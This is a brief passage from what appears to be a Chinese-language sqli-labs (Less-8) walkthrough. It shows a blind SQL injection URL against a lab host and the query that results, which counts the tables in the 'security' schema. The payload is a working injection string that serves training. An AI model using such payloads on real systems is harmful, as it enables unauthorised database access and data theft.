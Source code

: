 ```
URL:
http://192.168.234.128/sqllab/Less-8/?id=1%27%20and%20(select%20count(table_name)%20from%20Information_schema.tables%20where%20table_schema%20=%20%27security%27)=4%23
SQL:
SELECT * FROM users WHERE id='1' and (select count(table_name) from Information_schema.tables where table_schema = 'security')=4#' LIMIT 0,1;
;
```

![](image/15.jpg)

#### 获取表名长度
